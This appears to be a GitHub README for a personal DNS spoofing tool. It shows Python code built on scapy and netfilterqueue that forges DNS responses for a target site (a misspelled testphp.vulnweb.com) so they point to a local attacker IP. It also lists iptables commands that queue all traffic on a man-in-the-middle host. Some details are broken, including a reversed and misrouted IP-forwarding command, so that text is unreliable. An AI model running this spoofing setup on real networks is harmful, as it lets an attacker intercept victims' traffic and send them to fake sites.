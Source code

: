 # DNS_spoof

## Used Modules.

### netfilterqueue.

This module is used to redirect the flow of packets, the funtions process_packet will receive the packet and turn it into a scapy packet that i can edit(if you wanna know more about the module scapy go to another of my repositories like ARP_spoof).
When i verify that i have some request from my target(i can know if i have one request because i became the MITM, go to my repository ARP_spoof) if that's true i'm gonna take the value of the url and see if is the same web-site that i wanna spoof, and if it is i can send the DNS response with my ip destination, but with the same url name. And i can change the field "an" that contain the real answer to my costumized response and change the field "ancount" for just one response. Finally i'm gonna turn the scapy packet to a real packet.

```python
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
         qname = scapy_packet[scapy.DNSQR].qname
         if "testephp.vulnweb.com" in qname:
             print("[+] Spoofing target" + str(qname))
             answer = scapy.DNSRR(rrname=qname, rdata="192.168.1.8")
             scapy_packet[scapy.DNS].an = answer
             scapy_packet[scapy.DNS].ancount = 1
          
             del scapy_packet[scapy.IP].len
             del scapy_packet[scapy.IP].chksum
             del scapy_packet[scapy.UDP].chksum
             del scapy_packet[scapy.UDP].len
            

             packet.set_payload(str(scapy_packet))
```


## Used Commands

these commands clean the Iptables, and redirect the packets entering and leaving my pc for a queue 0 that i'm creating, this way all the packets that came through my computer instead of just pass (because of my arp_spoof when i became the Man-in-the-Midle) i'm gonna store all the packets in a queue.  

iptables --flush<br>
iptables -I INPUT -j NFQUEUE --queue-num  0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num  0<br>

Internet sharing on Linux is done through Netfilter / Iptables, which is the native firewall for distributions starting with the 2.4 kernel. So is necessary to use this command, this command writes the number 1 into the ip_forward file, enabling packet routing. The default is 0. With this, Linux starts to route packages from one interface to the other and vice versa(My target and my host).

echo > 1 /proc/sys/ipv4/ip_forward


